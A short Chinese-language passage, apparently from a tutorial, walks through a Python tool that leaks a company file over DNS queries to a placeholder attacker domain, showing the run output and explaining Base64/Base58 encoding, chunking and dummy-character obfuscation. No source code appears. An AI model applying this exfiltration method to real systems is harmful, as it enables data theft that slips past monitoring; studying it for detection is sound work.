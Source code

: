 python packety.py

文件名:securecorp.txt

域名(例如:badbaddoma.in): badbaddoma.in

[+]正在读取文件。

[+] Base64 编码。

[+] Base58 编码。

开始传输…[按回车键]

代码从读取文本文件开始。文本文件的内容将首先进行 Base64 编码，然后进行 Base58 编码。这留给我们一个长的编码字符串。然后，字符串被分成 20 个字符长的部分，每个部分将添加 3 个“虚拟”字符，以便进一步混淆。一个字符将被添加到编码字符串的前面，两个字符将被添加到后面。

例如，编码数据的一部分可能如下所示:'**6 gfghhjywsas 3r 4g hda 3**'。在添加额外的字符后，它将以“**x 6 gfghhjywsas 3r g 4 hda 3 Yu**”结束。

一旦一切都被编码并准备好，代码将等待用户按下“ENTER”键，以便开始将查询传输到 DNS 服务器。DNS 服务器可能已经设置为使用“Wireshark”或“tshark”来捕获传入的请求。

![](img/4e9781062eac921f96570809bb2ecbd8.png)

然后就是等传输达到 100%的问题了。如果任何一个查询没有按正确的顺序按时提交，那么泄露的数据将是不完整的，对攻击者来说是无用的。
